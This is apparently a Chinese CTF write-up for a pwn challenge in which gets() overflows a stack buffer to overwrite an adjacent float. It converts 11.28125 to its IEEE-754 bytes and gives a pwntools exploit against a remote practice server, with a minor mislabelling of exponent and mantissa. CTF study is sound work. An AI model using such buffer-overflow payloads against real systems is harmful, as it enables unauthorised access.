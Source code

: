 1. 漏洞函数：

   ```
   int func()
   {
     char v1[44]; // [rsp+0h] [rbp-30h] BYREF
     float v2; // [rsp+2Ch] [rbp-4h]
   
     v2 = 0.0;
     puts("Let's guess the number.");
     gets(v1);
     if ( v2 == 11.28125 )
       return system("cat /flag");
     else
       return puts("Its value should be 11.28125");
   }
   ```

2. 溢出到v2使v2=11.28125获取flag，复习以下float在内存中的形式：

   ```
   整数部分是8+2+1,0001011
   小数部分都是由2的负幂次组成的，一次乘2，得到：
   0.28125 * 2 = 0.5625，整数部分为0
   0.5625 * 2 = 1.125，整数部分为1
   0.125 * 2 = 0.25，整数部分为0
   0.25 * 2 = 0.5，整数部分为0
   0.5 * 2 = 1.0，整数部分为1
   01001
   ```

   1011.01001=1.01101001*(2^3)

   s=0 m=1000 0010 E=01101001

   0 1000 0010 01101001 000 0000 0000 0000

   0100 0001 0011 0100 1000 0000 0000 0000
   
   01000001 00110100 10000000 00000000
   
   41 34 80 00
   
   由于小端序，内存中为00 80 34 41

3. exp：在拼接字符串时，Python会自动进行编码转换。为了正确拼接字节序列，可以使用`bytes()`函数来创建一个字节序列

   ```python3
   from pwn import *
   
   context(os="linux", arch="arm64", log_level="debug")
   io = remote("node4.buuoj.cn", 27895)
   target = "01000001 00110100 10000000 00000000"
   target = target.split(' ')[::-1]
   target = b''.join(bytes([int(decimal, 2)]) for decimal in target)
   
   payload = b'a' * 0x2c + target
   io.sendlineafter(b"Let's guess the number.", payload)
   io.interactive()
   ```

   payload也可写成

   `payload += b'\x00\x80\x34\x41'`







